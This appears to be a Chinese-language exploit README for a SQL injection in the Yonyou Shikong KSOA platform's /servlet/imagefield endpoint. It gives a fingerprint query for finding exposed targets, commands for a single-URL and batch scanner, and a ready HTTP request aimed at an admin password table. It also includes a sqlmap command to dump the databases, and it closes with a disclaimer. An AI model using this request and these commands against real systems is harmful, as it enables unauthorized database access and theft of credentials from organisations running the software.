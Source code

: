 # 用友时空KSOA平台 SQL注入

用友时空KSOA平台 /servlet/imagefield 存在SQL注入漏洞，攻击者可利用该漏洞获取数据库敏感信息。


## 指纹

app="用友-时空KSOA"

## 工具利用

python3 KSOAimagefield_sqlscan.py -u http://127.0.0.1:1111 单个url测试

python3 KSOAimagefield_sqlscan.py -f url.txt 批量检测

扫描结束后会在当前目录生成存在漏洞url的vuln.txt

poc：

![](./poc.jpg)

![](./poc2.jpg)

exp：

将数据包保存为txt用sqlmap可得到数据
```
GET /servlet/imagefield?key=readimage&sImgname=password&sTablename=bbs_admin&sKeyname=id&sKeyvalue=1* HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.969.139 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close

```

sqlmap -r sql.txt --dbs

![](./exp.jpg)
## 免责声明

由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。
